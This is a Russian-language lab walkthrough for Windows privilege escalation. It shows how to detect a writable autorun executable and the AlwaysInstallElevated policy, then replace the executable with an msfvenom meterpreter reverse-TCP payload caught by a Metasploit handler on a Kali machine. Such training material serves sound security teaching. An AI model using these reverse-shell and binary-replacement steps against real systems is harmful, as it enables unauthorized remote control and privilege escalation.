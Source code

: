 ## Задание 3
#### Обнаружение

ВМ Windows

1. Откройте командную строку и введите:  `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe` 
2. В Autoruns щелкните вкладку «Logon». 
3. В списке результатов обратите внимание, что запись «My Program» указывает на `«C:\Program Files\Autorun Program\program.exe»`. 
4. В командной строке введите:  
   `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"` 
5. В выводе обратите внимание, что группа пользователей «Everyone» имеет разрешение «FILE_ALL_ACCESS» на файл «program.exe».    

#### Эксплуатация

Кали ВМ

1. Откройте командную строку и введите: `msfconsole`
2. В Metasploit (msf > prompt) введите: `use multi/handler`
3. В Metasploit (msf > prompt) введите: `set payload windows/meterpreter/reverse_tcp`
4. В Metasploit (msf > prompt) введите: `set lhost [ IP-адрес виртуальной машины Kali ]`
5. В Metasploit (msf > prompt) введите: `run`
6. Откройте дополнительную командную строку и введите:  `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ IP-адрес виртуальной машины Kali ] -f exe -o program.exe`
7. Скопируйте сгенерированный файл program.exe на виртуальную машину Windows.

ВМ Windows

1. Поместите program.exe в `«C:\Program Files\Autorun Program»`.
2. Чтобы смоделировать эффект повышения привилегий, выйдите из системы и войдите снова как администратор.

Кали ВМ

1. Дождитесь открытия нового сеанса в Metasploit.
2. В Metasploit (msf > prompt) введите: `sessions -i [Session ID]`
3. Чтобы подтвердить успешность атаки, в Metasploit (msf > prompt) введите: getuid

### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 4
Обнаружение

ВМ Windows

1. Откройте командную строку и введите:  `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
2. В выходных данных обратите внимание, что значение «AlwaysInstallElevated» равно 1.
3. В командной строке введите:  `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
4. В выходных данных обратите внимание, что значение «AlwaysInstallElevated» равно 1.
